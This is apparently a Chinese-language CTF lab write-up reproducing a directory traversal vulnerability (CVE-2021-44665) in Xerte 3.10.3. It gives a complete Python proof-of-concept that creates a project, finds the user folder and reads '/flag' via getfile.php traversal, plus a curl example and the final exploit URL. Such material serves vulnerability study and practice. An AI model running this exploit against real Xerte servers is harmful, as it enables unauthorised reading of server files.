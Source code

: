 ## 1. 漏洞介绍
[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2021-44665)
## 2. 漏洞分析
[Xerte 3.10.3 Directory Traversal](https://packetstormsecurity.com/files/166181/Xerte-3.10.3-Directory-Traversal.html)
## 3. 漏洞复现
poc.py【来源：[Xerte 3.10.3 Directory Traversal ≈ Packet Storm](https://packetstormsecurity.com/files/166181/Xerte-3.10.3-Directory-Traversal.html)】
```python
import requests
import re

xerte_base_url = "http://eci-2zegyjtjnfxk6cokkzlw.cloudeci1.ichunqiu.com/"
file_to_grab = "/../../../../../flag"
php_session_id = "" # If guest is not enabled, and you have a session ID. Put it here.

with requests.Session() as session:
    # Get a PHP session ID
    if not php_session_id:
        session.get(xerte_base_url) 
    else:
        session.cookies.set("PHPSESSID", php_session_id)

    # Use a default template
    data = {
        'tutorialid': 'Nottingham',
        'templatename': 'Nottingham',
        'tutorialname': 'exploit',
        'folder_id': ''
    }

    # Create a new project in order to create a user-folder
    template_id = session.post(xerte_base_url + '/website_code/php/templates/new_template.php', data=data)

    # Find template ID
    data = {
        'template_id': re.findall('(\d+)', template_id.text)[0]
    }

    # Find the created user-direcotry:
    user_direcotry = session.post(xerte_base_url + '/website_code/php/properties/media_and_quota_template.php', data=data)
    user_direcotry = re.findall('USER-FILES\/([0-9]+-[a-z0-9]+-[a-zA-Z0-9_]+)', user_direcotry.text)[0]

    # Grab file
    result = session.get(xerte_base_url + '/getfile.php?file=' + user_direcotry + file_to_grab)
    print(result.text)
    print("|-- Used Variables: --|")
    print("PHP Session ID: " + session.cookies.get_dict()['PHPSESSID'])
    print("user direcotry: " + user_direcotry)
    print("Curl example:")
    print('curl --cookie "PHPSESSID=' + session.cookies.get_dict()['PHPSESSID'] + '" ' + xerte_base_url + '/getfile.php?file=' + user_direcotry + file_to_grab)
```
注，flag 的位置是慢慢测出来的

![1.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309061744790.jpg)

`http://eci-2zegyjtjnfxk6cokkzlw.cloudeci1.ichunqiu.com//getfile.php?file=7-guest2-Nottingham/../../../../../flag`
